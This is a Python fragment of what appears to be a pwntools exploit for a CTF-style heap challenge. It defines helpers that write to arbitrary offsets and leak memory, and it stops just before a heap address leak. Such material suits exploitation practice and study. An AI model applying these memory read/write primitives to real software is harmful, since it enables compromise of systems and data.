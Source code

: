 ```Python
def set_var(var):
    p.recvuntil('$')
    p.sendline('6')
    p.sendline(str(var))

def write_num_to_offset(offset, num):
    set_var(num)
    p.recvuntil('$')
    p.sendline('5')
    p.recvuntil('$')
    p.sendline('9')
    p.recvuntil('Index => ')
    p.sendline(str(0))
    p.recvuntil('Index => ')
    p.sendline(str(offset))


def dump_addr(addr):
    set_to_global(0, addr & 0xffffffff)
    set_to_global(1, addr >> 32)
    
    read_to_vec(0, 0, 6)
    read_to_vec(0, 1, 7)

    low = dump_result(6) & 0xffffffff
    high = dump_result(7) & 0xffffffff
    addr = low + (high << 32)
    return addr



def main():
    if DEBUG:
        raw_input()
    p.recvuntil('>>>')
    p.sendline('[' + '1, ' * 119 + '1]')
    p.recvuntil('$')
    p.sendline('0')
    p.recvuntil('(y/n): ')
    p.sendline('n')
    
    p.recvuntil('>>>')
    p.sendline('[1, 1]')
    for i in range(10):
        log.info('allocating %d' % i)
        p.recvuntil('$')
        p.sendline('4')
    p.sendline('0')
    p.recvuntil('(y/n): ')
    p.sendline('n')

    #p.recvuntil('>>>')
    #p.sendline('"' + 'a' * 110 + '"')
    #p.sendline('0')
    #p.recvuntil('(y/n): ')
    #p.sendline('y')

    p.recvuntil('>>>')
    p.sendline('[' + '1, ' * 119 + '1]')
    p.recvuntil('$')
    p.sendline('5')

    # get heap address
```
